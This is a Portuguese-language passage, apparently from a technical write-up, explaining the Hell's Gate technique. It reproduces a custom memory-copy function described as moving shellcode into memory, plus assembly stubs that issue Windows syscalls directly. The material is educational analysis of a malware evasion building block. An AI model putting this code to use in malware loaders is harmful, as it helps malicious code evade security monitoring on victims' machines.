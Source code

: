 ![Untitled](/assets/img/Untitled%209.png)

## VxMoveMemory

E no código também esta presente a função `VxMoveMemory` , que o seu objetivo é copiar um bloco de memória de um lugar x para o lugar y,  ela é semelhante em  à função `memcpy` da biblioteca C padrão, mas tem uma implementação personalizada para este código. A função é usada para copiar o shellcode na memória.

```c
PVOID VxMoveMemory(PVOID dest, const PVOID src, SIZE_T len) {
	char* d = dest;
	const char* s = src;
	if (d < s)
		while (len--)
			*d++ = *s++;
	else {
		char* lasts = s + (len - 1);
		char* lastd = d + (len - 1);
		while (len--)
			*lastd-- = *lasts--;
	}
	return dest;
}
```

## Chamando a syscall

Agora que o Hell's Gate inicializou totalmente a estrutura `VX_TABLE_ENTRY` da syscall alvo, ele pode chamá-la. Para fazer isso, o Hell's Gate usa duas funções **assembly** de 64 bits: `HellsGate` e `HellDescent`, mostradas no arquivo [hellsgate.asm](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/hellsgate.asm).

```nasm
data
	wSystemCall DWORD 000h              ; this is a global variable used to keep the SSN of a syscall

.code
	HellsGate PROC
		mov wSystemCall, 000h
		mov wSystemCall, ecx            ; updating the 'wSystemCall' variable with input argument (ecx register's value)
		ret
	HellsGate ENDP

	HellDescent PROC
		mov r10, rcx
		mov eax, wSystemCall            ; `wSystemCall` is the SSN of the syscall to call
		syscall
		ret
	HellDescent ENDP
end
```
